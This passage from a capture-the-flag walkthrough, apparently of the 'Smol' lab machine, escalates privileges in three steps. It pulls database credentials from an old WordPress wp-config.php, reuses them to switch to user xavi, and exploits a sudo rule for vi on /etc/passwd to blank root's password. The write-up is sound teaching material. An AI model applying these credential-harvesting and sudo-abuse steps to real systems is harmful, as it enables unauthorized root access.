 Notice that it is exactly like a WordPress root's directory. Since this is an old backup, let's enumerate the database credentials to see if there was any change with time.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/Smol/Misc File/wordpress.old]
└─$ cat wp-config.php| grep -i "pass\|user"
/** Database username */
define( 'DB_USER', 'xavi' );
/** Database password */
define( 'DB_PASSWORD', '<REDACTED>' );
 * This will force all users to have to log in again.
```

We can see the database credentials of the user Xavi. Xavi is also a local user so let's use these credentials to log in as Xavi.
```bash
gege@smol:~$ su xavi
Password: 
xavi@smol:/home/gege$
```

We can log in as Xavi. A quick look at this user's sudo right reveals that Xavi can run the Vim text editor as root to edit the `/etc/passwd` file
```bash
xavi@smol:/home/gege$ sudo -l
[sudo] password for xavi: 
Matching Defaults entries for xavi on smol:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on smol:
    (ALL : ALL) /usr/bin/vi /etc/passwd
```

We can edit this file by removing the `x` in the root's entry to enable open authentication to this account.
![](/assets/img/posts/walthrough/hackmyvm/2024-10-27-smol/edit-passwd.png)

After the modification, we can log in as root without the use of a password and read the second flag.
```bash
xavi@smol:/home/gege$ su root
root@smol:/home/gege$ ls /root
total 64K
drwx------  7 root root 4.0K Oct 27 09:41 .
drwxr-xr-x 18 root root 4.0K Mar 29  2024 ..
lrwxrwxrwx  1 root root    9 Jun  2  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.2K Jun 21  2023 .bashrc
drwx------  2 root root 4.0K Jun  2  2023 .cache
-rw-------  1 root root   35 Mar 29  2024 .lesshst
drwxr-xr-x  3 root root 4.0K Jun 21  2023 .local
lrwxrwxrwx  1 root root    9 Aug 18  2023 .mysql_history -> /dev/null
drwxr-xr-x  4 root root 4.0K Aug 16  2023 .phpbrew
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 Aug 16  2023 root.txt
-rw-r--r--  1 root root   75 Aug 17  2023 .selected_editor
drwx------  3 root root 4.0K Jun 21  2023 snap
drwx------  2 root root 4.0K Jun  2  2023 .ssh
-rw-rw-rw-  1 root root  13K Oct 27 09:41 .viminfo
```
